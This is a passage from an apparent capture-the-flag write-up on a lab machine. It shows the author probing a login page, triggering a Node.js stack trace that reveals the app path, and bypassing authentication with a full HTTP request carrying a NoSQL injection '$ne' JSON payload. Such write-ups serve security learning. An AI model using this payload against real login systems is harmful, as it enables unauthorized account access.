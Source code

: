 Since Feroxbuster had not found anything else, I tried exploiting the login page. I started by trying SQL Injection, but it did not appear to work.

I wanted to test NoSQL Injection next. So I changed the content type to see if I can send some JSON.

```
Content-Type: application/json
```

It gave me an error that confirmed I could send JSON. It also gave me the path to the application, which was useful later.

```html
<pre>SyntaxError: Unexpected token u in JSON at position 0<br> &nbsp; &nbsp;at JSON.parse (&lt;anonymous&gt;)<br> &nbsp; &nbsp;at createStrictSyntaxError (/var/www/dev/node_modules/body-parser/lib/types/json.js:160:10)<br> &nbsp; &nbsp;at parse (/var/www/dev/node_modules/body-parser/lib/types/json.js:83:15)<br> &nbsp; &nbsp;at /var/www/dev/node_modules/body-parser/lib/read.js:128:18<br> &nbsp; &nbsp;at AsyncResource.runInAsyncScope (node:async_hooks:203:9)<br> &nbsp; &nbsp;at invokeCallback (/var/www/dev/node_modules/raw-body/index.js:231:16)<br> &nbsp; &nbsp;at done (/var/www/dev/node_modules/raw-body/index.js:220:7)<br> &nbsp; &nbsp;at IncomingMessage.onEnd (/var/www/dev/node_modules/raw-body/index.js:280:7)<br> &nbsp; &nbsp;at IncomingMessage.emit (node:events:513:28)<br> &nbsp; &nbsp;at endReadableNT (node:internal/streams/readable:1359:12)</pre>
```

I used [Caido](https://caido.io/) to intercept the login post request and modify it with some NoSQL Injection.

```http
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Origin: http://dev.stocker.htb
Connection: keep-alive
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3A6WpnzeP3GgUM-oSSXJclMl7NHWIaKx_i.SHl402IfoFmKczmxhVSHVjnj6bQBzwQh%2FjcL6aSSAJg
Upgrade-Insecure-Requests: 1
Content-Length: 101

{
    "username": {
        "$ne": "aaa"
    },
    "password": {
        "$ne": "aaa"
    }
}
```

It gave me a cookie and redirected me to the 'stock' page.
